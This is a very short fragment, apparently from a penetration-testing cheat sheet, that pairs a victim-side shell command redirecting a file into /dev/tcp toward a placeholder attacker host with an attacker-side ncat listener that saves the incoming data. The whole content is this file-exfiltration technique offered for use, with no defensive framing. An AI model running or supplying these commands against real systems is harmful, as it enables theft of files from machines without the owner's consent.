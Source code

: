 

### Vic
```shell
cat <file> > /dev/tcp/<attacker>/<attacker_port>
```

### Attak
```shell
ncat -nlvp <attacker_port> > <file>
```